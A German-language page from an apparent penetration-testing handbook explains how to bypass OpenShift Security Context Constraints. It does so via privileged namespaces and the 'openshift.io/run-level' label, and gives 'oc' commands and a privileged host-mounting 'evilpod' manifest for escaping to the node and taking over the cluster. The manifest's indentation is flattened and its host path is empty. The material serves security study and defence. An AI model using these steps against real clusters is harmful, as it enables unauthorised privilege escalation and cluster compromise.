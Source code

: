 # Openshift - SCC bypass

**Der ursprüngliche Autor dieser Seite ist** [**Guillaume**](https://www.linkedin.com/in/guillaume-chapela-ab4b9a196)

## Privilegierte Namespaces

Standardmäßig wird SCC nicht auf folgenden Projekten angewendet:

- **default**
- **kube-system**
- **kube-public**
- **openshift-node**
- **openshift-infra**
- **openshift**

Wenn Sie Pods in einem dieser Namespaces bereitstellen, wird keine SCC durchgesetzt, was die Bereitstellung von privilegierten Pods oder das Einbinden des Host-Dateisystems ermöglicht.

## Namespace-Label

Es gibt eine Möglichkeit, die Anwendung von SCC auf Ihrem Pod gemäß der RedHat-Dokumentation zu deaktivieren. Sie müssen mindestens eine der folgenden Berechtigungen haben:

- Erstellen eines Namespaces und Erstellen eines Pods in diesem Namespace
- Bearbeiten eines Namespaces und Erstellen eines Pods in diesem Namespace
```bash
$ oc auth can-i create namespaces
yes

$ oc auth can-i patch namespaces
yes
```
Der spezifische Label `openshift.io/run-level` ermöglicht es Benutzern, SCCs für Anwendungen zu umgehen. Laut der RedHat-Dokumentation werden bei Verwendung dieses Labels keine SCCs auf alle Pods innerhalb dieses Namensraums durchgesetzt, wodurch alle Einschränkungen effektiv aufgehoben werden.

<figure><img src="../../../images/Openshift-RunLevel4.png" alt=""><figcaption></figcaption></figure>

## Label hinzufügen

Um das Label in Ihrem Namensraum hinzuzufügen:
```bash
$ oc label ns MYNAMESPACE openshift.io/run-level=0
```
Um einen Namespace mit dem Label über eine YAML-Datei zu erstellen:
```yaml
apiVersion: v1
kind: Namespace
metadata:
name: evil
labels:
openshift.io/run-level: 0
```
Jetzt sollten alle neuen Pods, die im Namespace erstellt werden, keine SCC haben.

<pre class="language-bash"><code class="lang-bash"><strong>$ oc get pod -o yaml | grep 'openshift.io/scc'
</strong><strong>$
</strong></code></pre>

In Abwesenheit von SCC gibt es keine Einschränkungen für Ihre Pod-Definition. Das bedeutet, dass ein bösartiger Pod leicht erstellt werden kann, um auf das Host-System zu entkommen.
```yaml
apiVersion: v1
kind: Pod
metadata:
name: evilpod
labels:
kubernetes.io/hostname: evilpod
spec:
hostNetwork: true #Bind pod network to the host network
hostPID: true #See host processes
hostIPC: true #Access host inter processes
containers:
- name: evil
image: MYIMAGE
imagePullPolicy: IfNotPresent
securityContext:
privileged: true
allowPrivilegeEscalation: true
resources:
limits:
memory: 200Mi
requests:
cpu: 30m
memory: 100Mi
volumeMounts:
- name: hostrootfs
mountPath: /mnt
volumes:
- name: hostrootfs
hostPath:
path:
```
Jetzt ist es einfacher geworden, Privilegien zu eskalieren, um auf das Hostsystem zuzugreifen und anschließend den gesamten Cluster zu übernehmen, wodurch 'cluster-admin' Privilegien erlangt werden. Suchen Sie nach dem Abschnitt **Node-Post Exploitation** auf der folgenden Seite:

{{#ref}}
../../kubernetes-security/attacking-kubernetes-from-inside-a-pod.md
{{#endref}}

### Benutzerdefinierte Labels

Darüber hinaus können je nach Zielkonfiguration einige benutzerdefinierte Labels / Annotationen auf die gleiche Weise wie im vorherigen Angriffszenario verwendet werden. Auch wenn sie nicht dafür vorgesehen sind, könnten Labels verwendet werden, um Berechtigungen zu erteilen, eine bestimmte Ressource einzuschränken oder nicht.

Versuchen Sie, nach benutzerdefinierten Labels zu suchen, wenn Sie einige Ressourcen lesen können. Hier ist eine Liste interessanter Ressourcen:

- Pod
- Deployment
- Namespace
- Service
- Route
```bash
$ oc get pod -o yaml | grep labels -A 5
$ oc get namespace -o yaml | grep labels -A 5
```
## Liste aller privilegierten Namespaces
```bash
$ oc get project -o yaml | grep 'run-level' -b5
```
## Fortgeschrittener Exploit

In OpenShift, wie zuvor demonstriert, kann das Berechtigung, ein Pod in einem Namespace mit dem `openshift.io/run-level`-Label zu deployen, zu einer unkomplizierten Übernahme des Clusters führen. Aus der Perspektive der Cluster-Einstellungen **kann diese Funktionalität nicht deaktiviert werden**, da sie im Design von OpenShift verankert ist.

Allerdings können Maßnahmen wie **Open Policy Agent GateKeeper** verhindern, dass Benutzer dieses Label setzen.

Um die Regeln von GateKeeper zu umgehen und dieses Label zu setzen, um eine Cluster-Übernahme durchzuführen, **müssten Angreifer alternative Methoden identifizieren.**

## Referenzen

- [https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html](https://docs.openshift.com/container-platform/4.8/authentication/managing-security-context-constraints.html)
- [https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html](https://docs.openshift.com/container-platform/3.11/admin_guide/manage_scc.html)
- [https://github.com/open-policy-agent/gatekeeper](https://github.com/open-policy-agent/gatekeeper)

